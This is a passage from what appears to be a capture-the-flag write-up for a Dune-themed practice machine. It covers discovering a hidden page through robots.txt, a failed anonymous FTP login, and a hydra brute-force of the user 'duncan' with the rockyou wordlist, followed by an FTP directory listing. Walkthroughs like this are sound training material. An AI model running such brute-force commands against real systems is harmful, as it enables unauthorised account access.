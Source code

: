 We found an `/images` directory, but nothing there looks particularly interesting. We also found a `robots.txt` file. Let's check it out:

```
User-Agent: *
Disallow: /chapterhouse/
```

Okay, great! Let's check out `/chapterhouse`.

We found our first flag at the bottom of the page: `DUNE{NotTheFlag}`
We also see that Jessica instructs us (Paul) to find Duncan Idaho, and she gives us the key information that Duncan has a weak password. Let's see if we can use the username `duncan` to brute force entry into FTP or SSH.

## 3. FTP

Before we attempt to brute force our way into FTP, let's check if we can login as `anonymous`.

```
$ ftp anonymous@<ip-address>
Connected to <ip-address>.
220 Swordmaster Duncan Idaho's Quarters
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed

```

Anonymous login is not enabled, but we learned that the FTP server is "Duncan Idaho's Quarters". Looks like we're in the right place. Let's try using `hydra`` to brute force Duncan's password using the rockyou.txt wordlist:

```
$ hydra -l duncan -P /usr/share/wordlists/rockyou.txt <ip-address> ftp -t 64
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-22 19:33:30
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://<ip-address>:21/
[21][ftp] host: <ip-address>   login: duncan   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
```

Great, we found a password! Let's login to FTP and have a look around.

```
$ ftp duncan@<ip-address>                                                   
Connected to <ip-address>.
220 Swordmaster Duncan Idaho's Quarters
331 Please specify the password.
Password: <redacted>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||59339|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             621 Jan 22 15:32 message.txt
-rw-r--r--    1 0        0          135121 Jan 22 15:32 signet_ring.jpg
226 Directory send OK.
```
